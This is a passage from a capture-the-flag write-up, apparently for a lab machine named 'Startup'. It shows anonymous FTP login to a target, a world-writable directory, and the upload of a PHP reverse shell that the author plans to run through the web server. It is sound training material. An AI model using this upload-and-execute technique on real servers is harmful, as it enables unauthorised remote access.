 ![](/assets/img/posts/startup/2.png)

## Initial foothold 

We see the files we saw on the ftp share.So maybe we can try putting a `php reverse shell` script in the ftp directory as it had write permissions and try executing the script using the http service.
```bash
┌──(de4dl0ck㉿kali)-[~/thm/strtup]
└─$ ftp 10.10.101.161
Connected to 10.10.101.161.
220 (vsFTPd 3.0.3)
Name (10.10.101.161:de4dl0ck): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
ftp> cd ftp
250 Directory successfully changed.
ftp> put php-reverse-shell.php
local: php-reverse-shell.php remote: php-reverse-shell.php
200 PORT command successful. Consider using PASV.
150 Ok to send data.
226 Transfer complete.
5492 bytes sent in 0.00 secs (44.7656 MB/s)
ftp> 
```